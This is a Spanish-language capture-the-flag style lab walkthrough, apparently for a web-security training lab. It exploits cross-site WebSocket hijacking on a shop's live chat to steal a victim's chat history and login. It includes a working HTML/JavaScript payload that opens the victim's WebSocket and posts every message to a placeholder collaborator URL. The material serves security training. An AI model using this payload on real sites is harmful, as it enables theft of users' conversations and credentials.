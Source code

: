 `TAREA:` Esta tienda en línea tiene una función de chat en vivo implementada mediante WebSockets.

Para resolver el laboratorio, utilice el servidor de exploits para alojar una carga útil HTML/JavaScript que utiliza un ataque de secuestro de WebSocket entre sitios para exfiltrar el historial de chat de la víctima y luego usar esto para obtener acceso a su cuenta.

iniciamos sesión y rápidamente podemos ver que tenemos una cookie de sesión y el parámetro `Same Site` esta configurado como `None`
![[Pasted image 20250729130722.png]]

si analizamos la petición podemos ver que la solicitud del mensaje se envía al servidor haciendo un llamado a recurso `/resources/js/chat.js`
![[Pasted image 20250729134949.png]]

analizamos el json `chat.js` Ese código es un script JavaScript autoejecutable que implementa la interfaz del chat en tiempo real y utiliza la función de WebSockets
![[Pasted image 20250729135359.png]]

partiendo de esta idea podemos crear nuestra conexión web socket para exfiltrar esta información

```python
<script> 
var ws = new WebSocket('wss://your-websocket-url'); 
ws.onopen = function() { ws.send("READY"); 
}; 
ws.onmessage = function(event) { 
fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data}); 
}; 
</script>
```

- **Se conecta a un servidor WebSocket**
    
    - El navegador establece una conexión con un servidor remoto (controlado por el atacante o sistema).
        
    - Esta conexión se mantiene abierta para recibir mensajes en tiempo real.
        
- **Envía una señal de "listo"**
    
    - Al establecer la conexión, el navegador envía un mensaje tipo `"READY"` para avisar que está conectado y esperando instrucciones.
        
- **Escucha mensajes entrantes**
    
    - El servidor WebSocket puede enviar mensajes al navegador.
        
- **Reenvía esos mensajes a otro servidor**
    
    - Cada mensaje recibido es automáticamente enviado (como una solicitud POST) a otra URL, bajo control del atacante. en este caso el WebSocket que hemos creado 

![[Pasted image 20250729142914.png]]

una vez realizado esto solo debemos esperar a que la victima haga clic en la solicitud para recibir la informacion
![[Pasted image 20250729142857.png]]

ahora solo nos queda limpiar nuestros mensajes y decodearlos de esta manera obtenemos un usuario y una contraseña
![[Pasted image 20250729143812.png]]